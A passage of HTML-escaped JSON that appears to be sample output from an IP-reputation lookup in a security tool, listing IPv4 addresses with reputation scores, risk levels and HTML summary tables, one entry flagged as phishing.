Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;52.178.17.3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;77&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.33.195.208&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 89,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.33.195.208&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 874628048,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 89,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;52.33.195.208&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;89&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;5&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;34.211.152.164&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 16,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;34.211.152.164&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 584292516,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 16,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;34.211.152.164&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;16&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.67.48.56&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 15,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.67.48.56&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 910372920,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 15,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;54.67.48.56&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;15&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.226.139.121&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 67,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.226.139.121&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 887262073,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 67,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;52.226.139.121&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;67&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.226.139.180&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 67,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.226.139.180&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 887262132,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 67,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;52.226.139.180&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;67&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;185.159.159.170&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 17,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;185.159.159.170&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 3114246058,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 17,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;185.159.159.170&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;17&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;172.64.140.31&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 33,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;172.64.140.31&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 2889911327,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 33,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;172.64.140.31&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;33&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;2&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;172.67.194.22&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 8,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;172.67.194.22&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 2890121750,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 8,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;threat_mask&quot;: 128,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;domain&quot;: &quot;172.67.194.22&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;domain_age&quot;: &quot;-1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;threat_count&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;current_release_date&quot;: 1697959578,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;first_release_date&quot;: 1678413888,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;last_release_date&quot;: 1678413888,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;threat_category&quot;: &quot;Phishing&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;172.67.194.22&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;8&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;Phishing&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;40.113.110.67&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 19,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;40.113.110.67&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 678522435,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 19,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; 